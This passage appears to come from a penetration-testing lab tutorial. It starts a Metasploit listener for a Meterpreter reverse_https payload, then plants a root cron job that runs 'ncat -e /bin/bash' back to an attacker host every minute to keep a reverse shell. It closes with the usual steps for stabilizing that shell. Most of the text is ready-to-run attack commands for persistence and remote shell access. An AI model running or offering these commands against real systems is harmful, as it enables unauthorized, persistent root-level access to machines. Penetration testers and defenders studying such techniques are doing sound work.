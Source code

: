 Open up a terminal window and start the listener in order to see the current active sessions.

`msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_https; set LHOST 192.168.100.100; set LPORT 4443;set ExitOnSession false;exploit -j -z;"`

You can check "sessions" in msfconole using `sessions`
Let's start with the Ubuntu machine.
`sessions 1`

Using `shell` we can interact with the machine as _"Root"_

Knowing that, use `echo "* * * * * ncat -e /bin/bash 192.168.100.100 4444" >> /var/spool/cron/crontabs/root` in order to create a new cronjob on the Root account that will allow you to get a reverse shell at any given time.
#### Stabilizing the Shell

After successfully gaining the reverse shell, it's usually missing autocompletion and symbol deletion options, among other features.
In order to have a fully interactive shell, you must stabilize it.

Using the following steps, continue to stablize the shell using Python.

_Import pty module and spawn bash shell:_ 
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Press _(CTRL + Z )_ to background process and get back to your host machine.

Use _stty_ command to set terminal line settings and foreground back the target terminal:
`stty raw -echo; fg`

Set the terminal emulator to xterm: `export TERM=xterm`

Now that the shell is fully interactive and stabilized, use `whoami` to double-check the current user privileges and ensure you have the expected level of access on the target system.